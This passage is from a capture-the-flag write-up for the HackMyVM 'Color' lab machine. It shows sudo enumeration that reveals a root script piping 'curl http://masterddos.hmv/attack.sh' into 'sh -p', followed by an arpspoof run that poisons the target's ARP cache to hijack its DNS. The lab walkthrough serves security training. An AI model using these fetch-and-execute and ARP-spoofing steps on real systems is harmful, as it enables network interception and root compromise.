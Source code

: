 The login was successful. From the message above we notice that Purple's account seems to have more important privileges than Green's account. Let's try to enumerate if Purple can execute any command as the root user.
```bash
purple@color:~$ cat for_purple_only.txt 
As the highest level user I allow you to use the supreme ddos attack script.
purple@color:~$ sudo -l
Matching Defaults entries for purple on color:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User purple may run the following commands on color:
    (root) NOPASSWD: /attack_dir/ddos.sh
```

This user can execute a custom script located in the /attack_dir directory as root. Let's read this script and understand how it functions.
```bash
purple@color:~$ cat /attack_dir/ddos.sh
#!/bin/bash
/usr/bin/curl http://masterddos.hmv/attack.sh | /usr/bin/sh -p
```

This script fetches another script from an external server having the masterddos.hmv domain and executes it. We could exploit this sudo right directly by placing a fake entry of this domain in the /etc/hosts file but we do not have write permissions on this file.
```bash
purple@color:~$ ls -l  /etc/hosts
-rw-r--r-- 1 root root 185 Jan 27  2023 /etc/hosts

purple@color:~$ cat /etcc/hosts
cat: /etcc/hosts: No such file or directory
purple@color:~$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       color

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

We can also notice above that this domain has no entry in the /etc/hosts file. This means the domain resolution process is performed by the DNS server of the target. We can view the target DNS server IP address by reading the content of the /etc/resolv.conf file.
```bash
purple@color:~$ cat /etc/resolv.conf 
nameserver 10.0.2.1
```

We have the IP address of the target DNS server and we are on the same LAN as the target. We can spoof the target DNS server IP address by forcing the target to change the DNS server MAC address to ours in its ARP cache. This will make the target to make DNS requests to us for name resolution. We can do this by running the tool arpspoof on our attack host with the target's IP address first and the DNS server's IP address second. 
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ sudo arpspoof -t 10.0.2.28 10.0.2.1
8:0:27:4:2:25 8:0:27:bf:97:f6 0806 42: arp reply 10.0.2.1 is-at 8:0:27:4:2:25
8:0:27:4:2:25 8:0:27:bf:97:f6 0806 42: arp reply 10.0.2.1 is-at 8:0:27:4:2:25
8:0:27:4:2:25 8:0:27:bf:97:f6 0806 42: arp reply 10.0.2.1 is-at 8:0:27:4:2:25
```
